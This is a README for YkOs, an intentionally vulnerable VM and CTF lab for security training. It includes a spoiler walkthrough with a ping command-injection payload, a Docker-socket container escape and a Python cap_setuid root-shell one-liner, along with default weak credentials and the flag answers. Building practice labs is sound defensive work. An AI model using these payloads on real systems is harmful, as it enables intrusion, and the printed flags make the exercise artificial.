

# YkOs (Vulnerable Operating System & Lab Environment)

<div align="center">

```text
                _                 
 _   _ | | _____  ___     
| | | || |/ / _ \/ __|    
| |_| ||   < (_) \__ \    
 \__, ||_|\_\___/|___/    
 |___/                    
```

**Next-Generation Vulnerable Security Lab & CTF Environment**  
*Going beyond Metasploitable with modern container breakouts, API security vulnerabilities, and contemporary Linux local privilege escalation.*

[](https://www.virtualbox.org/)
[](https://www.docker.com/)
[](LICENSE)
[](#)

</div>

---

## 📖 Overview

**YkOs** is an intentionally vulnerable virtual machine designed for cybersecurity students, ethical hackers, and penetration testing professionals. 

While legacy training targets like **Metasploitable 2** relied on 15-year-old vulnerabilities (such as `vsftpd 2.3.4` backdoor and outdated PHP 5 applications), **YkOs bridges the gap between legacy exploitation and modern 2026 security assessments**. It includes modern microservices, **Docker container breakouts**, contemporary **Linux capabilities (`setcap`) privilege escalation**, and an integrated **interactive CTF progress tracker**.

---

## ⚡ YkOs vs. Metasploitable 2

| Feature | Metasploitable 2 (Legacy) | YkOs (Next-Gen) |
|---|---|---|
| **Containerization** | ❌ None | ✅ Docker & Microservices Architecture |
| **Container Escape** | ❌ Not available | ✅ Docker Socket (`/var/run/docker.sock`) Breakout |
| **API & Cloud Security** | ❌ Legacy Monolithic PHP | ✅ REST API, Command Injection & Modern Diagnostics |
| **Linux Privilege Escalation** | ⚠️ Outdated Kernels / Exploit-DB | ✅ Modern Capabilities (`setcap`), SUID, Cron Wildcards |
| **CTF & Progress Tracking** | ❌ None (Unguided) | ✅ Interactive Web Dashboard with 5 Flag Verifiers |
| **Modern Web Targets** | ⚠️ Classic DVWA only | ✅ DVWA + OWASP Juice Shop + Custom DevOps Diagnostic API |

---

## 🏗️ Architecture & Network Topology



---

## 🎯 Port Mapping & Service Directory

| Port | Protocol / Service | Description | Vulnerability Highlights |
|---|---|---|---|
| **80** | HTTP (`nginx`) | **YkOs Central Portal** | Interactive CTF Flag Tracker, Recon info, lab overview |
| **5000** | HTTP (Python Flask) | **Cloud DevOps Diagnostic API** | Command Injection, Ping Tool RCE, Container Breakout |
| **3000** | HTTP (Node.js) | **OWASP Juice Shop** | Modern OWASP Top 10, JWT tampering, NoSQL injection, BOLA |
| **8080** | HTTP (Apache/PHP) | **DVWA** | Classic SQLi, XSS, LFI/RFI, Unrestricted File Upload |
| **21** | TCP (`vsftpd`) | **Anonymous FTP** | Anonymous login enabled, world-writable upload directory |
| **22** | TCP (`OpenSSH`) | **SSH Daemon** | Weak credential logins, remote shell access |
| **23** | TCP (`inetd`) | **Telnet** | Cleartext credential transmission, legacy authentication |

---

## 🚩 CTF Roadmap & Flag Verification

YkOs includes 5 structured flags simulating a real-world multi-stage red team engagement:

| # | Phase | Target Vector | Location / Method | Flag Format |
|:---:|---|---|---|---|
| **1** | **Reconnaissance** | Anonymous FTP Information Leak | `/srv/ftp/flag_ftp.txt` | `YKOS{4n0nym0us_ftp_l34k_2026}` |
| **2** | **Web / API Exploitation** | Command Injection via Diagnostic Tool | Port 5000 (`/api/flag`) | `YKOS{cmd_1nj3ct10n_t0_c0nt41n3r_sh3ll}` |
| **3** | **Container Escape** | Docker Socket Abuse (`/var/run/docker.sock`) | Inside Container `/root/flag_docker.txt` | `YKOS{d0ck3r_s0ck3t_3sc4p3_succ3ss}` |
| **4** | **Initial Access** | Local User Shell Credentials | Target file `/home/ykos/user.txt` | `YKOS{us3r_sh3ll_4cc3ss_gr4nt3d}` |
| **5** | **Privilege Escalation** | Modern Linux Capabilities (`cap_setuid`) | Target file `/root/root.txt` | `YKOS{l1nux_c4p4b1l1t13s_r00t_m4st3r}` |

> [!TIP]
> You can enter and verify all captured flags dynamically directly on the web portal at `http://<ykos-ip>/`. Progress is saved in your browser's local storage.

---

## 🚀 Quick Start Guide

### Prerequisites
- [Oracle VirtualBox 6.1+](https://www.virtualbox.org/)
- Preconfigured virtual disk: `YkOs-disk.vmdk`

### Launch Options

#### Option A: One-Click Windows Launch (Recommended)
1. Double-click `YkOs-Setup.bat` to automatically register the VM into VirtualBox.
2. Double-click `YkOs-Start.bat` to boot up the machine.

#### Option B: Manual VirtualBox Import
```powershell
powershell -ExecutionPolicy Bypass -File .\Create-YkOs-VM.ps1
```

#### Option C: Vagrant (Automated Linux Provisioning)
If setting up from a fresh Ubuntu box:
```bash
vagrant up
```

---

## 👤 Default Credentials

| Username | Password | Role / Permissions |
|---|---|---|
| `ykos` | `ykos` | Primary Lab User *(Docker & Sudo access)* |
| `msfadmin` | `msfadmin` | Legacy Metasploitable Compatibility Account |
| `service` | `service123` | Unprivileged Service Account |
| `root` | `toor` | System Administrator / Superuser |

---

## 🛠️ Step-by-Step Attack Walkthrough (Spoiler Alert)

<details>
<summary><b>Click to expand exploitation walk-through hints</b></summary>

### 1. Reconnaissance (Nmap & Anonymous FTP)
```bash
nmap -sC -sV -p- <TARGET_IP>
ftp <TARGET_IP> # User: anonymous | Pass: anonymous
get flag_ftp.txt
```

### 2. Command Injection on DevOps API (Port 5000)
Navigate to `http://<TARGET_IP>:5000/` and exploit the host diagnostic ping parameter:
```text
127.0.0.1; whoami; curl http://<TARGET_IP>:5000/api/flag
```

### 3. Docker Socket Breakout (Container Escape)
Spawn a reverse shell from the API container, inspect mounted Docker socket:
```bash
docker ps
docker run -v /:/host -it alpine chroot /host /bin/bash
```

### 4. Linux Capabilities Privilege Escalation
On the host operating system, inspect binary capabilities:
```bash
getcap -r / 2>/dev/null
# Target: /usr/bin/python3 = cap_setuid+ep
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
cat /root/root.txt
```
</details>

---

## ⚠️ Security Disclaimer

> [!CAUTION]
> **WARNING:** YkOs is intentionally insecure and contains critical security vulnerabilities, backdoor simulations, and weak credentials.
> - **NEVER** expose this virtual machine to public or untrusted networks (Bridged mode).
> - Use only in isolated environments: **Host-Only** or **NatNetwork**.
> - The creators assume no liability for misuse of this project.

---

## 📄 License

This project is licensed under the [MIT License](LICENSE) - feel free to use it for academic and security training purposes.
